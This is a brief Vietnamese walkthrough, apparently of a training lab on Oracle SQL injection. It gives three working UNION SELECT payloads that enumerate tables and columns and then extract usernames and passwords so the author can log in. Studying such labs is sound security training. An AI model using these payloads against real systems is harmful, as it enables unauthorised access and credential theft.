 # SQL injection attack, listing the database contents on Oracle

Như thường lệ ta check xem có bao nhiêu cột và kiểu dữ liệu trong cột đó là gì, làm như những bài trước thì ta thấy có 2 cột và kiểu dữ liệu string.

Ta sử dụng câu lệnh `' UNION SELECT TABLE_NAME, NULL FROM all_tables--` để liệt kê ra tên các bảng, sau đó tìm bảng có tên liên quan tới `users` 

![](https://cdn.discordapp.com/attachments/1124588087931043891/1134670055272095844/image.png)

Tiếp theo ta sử dụng câu lệnh `' UNION SELECT column_name, NULL FROM all_tab_columns WHERE TABLE_NAME = 'USERS_PNGFYN'--` để liệt kê ra tên các cột bên trong bảng `USERS_PNGFYN`.

![](https://cdn.discordapp.com/attachments/1124588087931043891/1134671364763172904/image.png)

Tiếp theo ta sử dụng câu lệnh `' UNION SELECT USERNAME_AMKXFJ, PASSWORD_DHLXFT FROM USERS_PNGFYN--` để truy cập vào thông tin 2 cột trên và đăng nhập thui

![](https://cdn.discordapp.com/attachments/1124588087931043891/1134671911360675861/image.png)

Login và hoàn thành bài lab thui!